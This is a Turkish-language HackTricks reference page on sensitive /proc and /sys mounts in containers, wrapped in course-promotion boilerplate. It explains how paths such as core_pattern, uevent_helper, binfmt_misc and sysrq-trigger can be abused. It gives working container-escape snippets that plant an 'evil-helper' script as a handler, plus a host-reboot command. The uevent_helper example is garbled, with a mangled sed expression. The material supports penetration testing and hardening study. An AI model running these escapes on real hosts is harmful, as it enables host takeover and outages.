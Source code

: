 # Hassas Bağlantı Noktaları

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile</strong>!</summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks ve HackTricks Cloud github depolarına katkıda bulunun.**

</details>

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Doğru namespace izolasyonu olmadan `/proc` ve `/sys`'in maruz kalması, saldırı yüzeyinin genişlemesi ve bilgi sızdırma gibi ciddi güvenlik risklerini beraberinde getirir. Bu dizinler, yanlış yapılandırılmış veya yetkisiz bir kullanıcı tarafından erişilen hassas dosyaları içerir ve bu da konteyner kaçışına, ana bilgisayarın değiştirilmesine veya daha fazla saldırıya yardımcı olacak bilgilerin sağlanmasına yol açabilir. Örneğin, `-v /proc:/host/proc` şeklinde yanlış bağlama yapılması, yol tabanlı doğası nedeniyle AppArmor korumasını atlayabilir ve `/host/proc`'u korumasız bırakabilir.

**Her potansiyel zafiyetin daha fazla ayrıntısını** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** adresinde bulabilirsiniz.**

## procfs Zafiyetleri

### `/proc/sys`

Bu dizin, genellikle `sysctl(2)` aracılığıyla çekirdek değişkenlerini değiştirme izni verir ve endişe kaynağı olan birkaç alt dizini içerir:

#### **`/proc/sys/kernel/core_pattern`**

* [core(5)](https://man7.org/linux/man-pages/man5/core.5.html) adresinde açıklanmıştır.
* Çekirdek dosyası oluşturulduğunda ilk 128 baytı argüman olarak alan bir programın tanımlanmasına izin verir. Dosya bir pipe `|` ile başlıyorsa kod yürütme olasılığı vardır.
*   **Test ve Sömürü Örneği**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Yazma erişimini test et
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Özel işleyiciyi ayarla
sleep 5 && ./crash & # İşleyiciyi tetikle
```

#### **`/proc/sys/kernel/modprobe`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde detaylı olarak açıklanmıştır.
* Çekirdek modül yükleyicisinin yolunu içerir, çekirdek modüllerini yüklemek için çağrılır.
*   **Erişimi Kontrol Etme Örneği**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # modprobe erişimini kontrol et
```

#### **`/proc/sys/vm/panic_on_oom`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde referans olarak verilmiştir.
* Bir OOM durumu meydana geldiğinde çekirdeğin çökmesini veya OOM öldürücüyü çağırmasını kontrol eden global bir bayrak.

#### **`/proc/sys/fs`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde belirtildiği gibi, dosya sistemi hakkında seçenekler ve bilgiler içerir.
* Yazma erişimi, ana bilgisayara karşı çeşitli hizmet reddi saldırılarına olanak tanır.

#### **`/proc/sys/fs/binfmt_misc`**

* Sihirli sayılarına dayalı olmayan ikili biçimler için yorumlayıcıları kaydetmeye olanak tanır.
* `/proc/sys/fs/binfmt_misc/register` yazılabilirse ayrıcalık yükseltmesine veya kök kabuk erişimine yol açabilir.
* İlgili sömürü ve açıklama:
* [binfmt\_misc ile yoksul adamın kök kiti](https://github.com/toffan/binfmt\_misc)
* Detaylı öğretici: [Video bağlantısı](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Diğerleri `/proc` içinde

#### **`/proc/config.gz`**

* `CONFIG_IKCONFIG_PROC` etkinse çekirdek yapılandırmasını ortaya çıkarabilir.
* Çalışan çekirdekteki zafiyetleri belirlemek için saldırganlar için faydalıdır.

#### **`/proc/sysrq-trigger`**

* Sysrq komutlarını çağırmaya izin verir, potansiyel olarak anında sistem yeniden başlatmalar veya diğer kritik işlemlere neden olabilir.
*   **Ana Bilgisayarı Yeniden Başlatma Örneği**:

```bash
echo b > /proc/sysrq-trigger # Ana bilgisayarı yeniden başlatır
```

#### **`/proc/kmsg`**

* Çekirdek halka tamponu mesajlarını açığa çıkarır.
* Çekirdek saldırılarına, adres sızıntılarına ve hassas sistem bilgilerinin sağlanmasına yardımcı olabilir.

#### **`/proc/kallsyms`**

* Çekirdek dışa aktarılan sembolleri ve adreslerini listeler.
* Özellikle KASLR'yi aşmak için çekirdek saldırı geliştirme için temel öneme sahiptir.
* Adres bilgileri `kptr_restrict`'in `1` veya `2` olarak ayarlanmasıyla sınırlıdır.
* Detaylar [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde bulunabilir.

#### **`/proc/[pid]/mem`**

* Çekirdek bellek cihazı `/dev/mem` ile etkileşim sağlar.
* Tarihsel olarak ayrıcalık yükseltme saldırılarına karşı savunmasızdır.
* Daha fazla bilgi için [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresine bakabilirsiniz.

#### **`/proc/kcore`**

* Sistemin fiziksel belleğini ELF çekirdek biçiminde temsil eder.
* Okuma, ana bilgisayar sistemi ve diğer konteynerlerin bellek içeriğini sızdırabilir.
* Büyük dosya boyutu okuma sorunlarına veya yazılım çökmelerine yol açabilir.
* Ayrıntılı kullanım [2019'da /proc/kcore Dökme](https://schlafwandler.github.io/posts/dumping-/proc/kcore/) adresinde bulunabilir.

#### **`/proc/kmem`**

* `/dev/kmem` için alternatif arayüz, çekirdek sanal belleğini temsil eder.
* Okuma ve yazma izni verir, dolayısıyla çekirdek belleğinin doğrudan değiştirilmesine olanak tanır.

#### **`/proc/mem`**

* `/dev/mem` için alternatif arayüz, fiziksel belleği temsil eder.
* Okuma ve yazma izni verir, tüm belleğin değiştirilmesi sanal adreslerin fiziksel adreslere çözülmesini gerektirir.

#### **`/proc/sched_debug`**

* PID ad alanı korumalarını atlayarak işlem zamanlama bilgilerini döndürür.
* İşlem adlarını, kimlikleri ve cgroup kimliklerini açığa çıkarır.

#### **`/proc/[pid]/mountinfo`**

* İşlem bağlantı noktaları hakkında bilgi sağlar.
* Konteyner `rootfs` veya görüntünün konumunu açığa çıkarır.

### `/sys` Zafiyetleri

#### **`/sys/kernel/uevent_helper`**

* Çekirdek cihaz `uevent`'lerini işlemek için kullanılır.
* `/sys/kernel/uevent_helper`'a yazmak, `uevent` tetikleyicileri üzerine keyfi komut dosyalarını yürütebilir.
*   **Sömürü Örneği için**: %%%bash

#### Bir yük oluşturur

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Konteyner için OverlayFS bağlantı noktasından ana bilgisayar yolunu bulur

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### uevent_helper'ı kötü amaçlı yardımcıya ayarlar

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### Bir uevent tetikler

echo change > /sys/class/mem/null/uevent

#### Çıktıyı okur

cat /output %%%
#### **`/sys/class/thermal`**

* Sıcaklık ayarlarını kontrol eder, olası DoS saldırılarına veya fiziksel hasara neden olabilir.

#### **`/sys/kernel/vmcoreinfo`**

* Kernel adreslerini sızdırır, KASLR'ı tehlikeye atabilir.

#### **`/sys/kernel/security`**

* `securityfs` arayüzünü barındırır, AppArmor gibi Linux Güvenlik Modülleri'nin yapılandırılmasına izin verir.
* Erişim, bir konteynerin MAC sistemini devre dışı bırakmasına olanak tanıyabilir.

#### **`/sys/firmware/efi/vars` ve `/sys/firmware/efi/efivars`**

* NVRAM'daki EFI değişkenleriyle etkileşim için arayüzler sunar.
* Yanlış yapılandırma veya istismar, tuğla gibi dizüstü bilgisayarlar veya başlatılamayan ana bilgisayar makinelerine yol açabilir.

#### **`/sys/kernel/debug`**

* `debugfs`, çekirdeğe "kurallar olmadan" hata ayıklama arayüzü sunar.
* Sınırsız doğası nedeniyle güvenlik sorunları geçmişi bulunmaktadır.

### Referanslar

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **tanıtmak istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**'u takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
